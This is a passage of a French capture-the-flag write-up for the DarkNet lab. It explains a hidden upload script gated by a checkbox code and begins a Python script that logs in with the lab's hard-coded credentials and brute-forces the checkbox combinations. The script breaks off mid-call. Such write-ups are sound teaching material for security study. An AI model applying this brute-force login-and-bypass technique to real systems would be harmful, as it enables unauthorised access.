 Du pain spiritique sur la planche
---------------------------------

L'accès au *xpanel* n'apporte à première vue pas grand chose... Mais en commentaire dans le HTML on trouve une référence à un script *ploy.php* qui est un code à remplir via des checkbox.  

Il s'agit bien sûr d'un script d'upload mais le fichier ne sera accepté que si on trouve le bon code...  

![DarkNet CTF upload script requiring code](/assets/img/darknet/darknet_upload_script.png)

Les valeurs de chaque checkbox sont numériques on aura donc une combinaison de ces valeurs à trouver :  

```html
<input type="checkbox" name="checkbox[]" value="37">
<input type="checkbox" name="checkbox[]" value="58">
<input type="checkbox" name="checkbox[]" value="22">
<input type="checkbox" name="checkbox[]" value="12">
<input type="checkbox" name="checkbox[]" value="72">
<input type="checkbox" name="checkbox[]" value="10">
<input type="checkbox" name="checkbox[]" value="59">
<input type="checkbox" name="checkbox[]" value="17">
<input type="checkbox" name="checkbox[]" value="99">
```

Voici un code pour trouver la bonne combinaison :  

```python
from itertools import combinations
import requests

numbers = ["37", "58", "22", "12", "72", "10", "59", "17", "99"]                                                                                                                                                                              

sess = requests.session()                                                                                                                                                                                                                     
login_data = {                                                                                                                                                                                                                                
    "username": "devnull",                                                                                                                                                                                                                    
    "password": "j4tC1P9aqmY",                                                                                                                                                                                                                
    "Action": "Login"                                                                                                                                                                                                                         
    }                                                                                                                                                                                                                                         

r = sess.post(                                                                                                                                                                                                                                
```